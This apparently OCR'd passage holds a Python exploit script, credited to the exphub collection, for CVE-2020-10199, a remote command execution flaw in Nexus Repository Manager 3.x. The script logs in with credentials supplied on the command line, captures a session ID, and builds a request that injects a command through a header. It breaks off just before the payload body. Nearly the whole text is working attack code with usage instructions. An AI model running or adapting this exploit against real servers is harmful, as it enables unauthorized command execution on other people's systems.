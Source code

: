     import sys
    import requests
    import re
    import base64

    if len(sys.argv)!=4:
        print('+----------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                 +')
        print('+      CVE-2020-10199 Nexus 3 remote command execution                 +')
        print('+----------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <url> <username> <password>                  +')
        print('+ EXP: python3 cve-2020-10199_cmd.py http://127.0.0.1:8081 admin admin +')
        print('+ VER: Nexus Repository Manager 3.x OSS / Pro <= 3.21.1                +')
        print('+----------------------------------------------------------------------+')
        sys.exit()

    url = sys.argv[1]
    cmd = "whoami"
    username = sys.argv[2]
    password = sys.argv[3]

    base64_user = base64.b64encode(str.encode(username))
    user64 = base64_user.decode('ascii')
    base64_pass = base64.b64encode(str.encode(password))
    pass64 = base64_pass.decode('ascii')

    # get sessionid
    session_url = url + "/service/rapture/session"
    session_data = {'username':user64,'password':pass64}
    session_headers = {
        'Connection': "keep-alive",
        'Content-Length': "41",
        'X-Requested-With': "XMLHttpRequest",
        'X-Nexus-UI': "true",
        'User-Agent': "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36"
    }
    try:
        r = requests.post(session_url, data=session_data, headers=session_headers, timeout=20)
        session_str = str(r.headers)
        session = (re.search(r"NXSESSIONID=(.*); Path", session_str).group(1))
        print ("[+] Get Sessionid: " + session)
    except:
        print ("[-] Not SessionID")
        sys.exit(0)

    # exec command
    def exp(cmd):
        cmd_url = url+ "/service/rest/beta/repositories/go/group"
        cmd_headrs = {
            'Connection': "keep-alive",
            'NX-ANTI-CSRF-TOKEN': "0.6153568974227819",
            'Content-Length': "41",
            'X-Requested-With': "XMLHttpRequest",
            'X-Nexus-UI': "true",
            'Content-Type': "application/json",
            '404': ""+cmd+"",
            'User-Agent': "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36",
            'Cookie': "jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.6153568974227819; NXSESSIONID="+session+""
        }
        cmd_data = """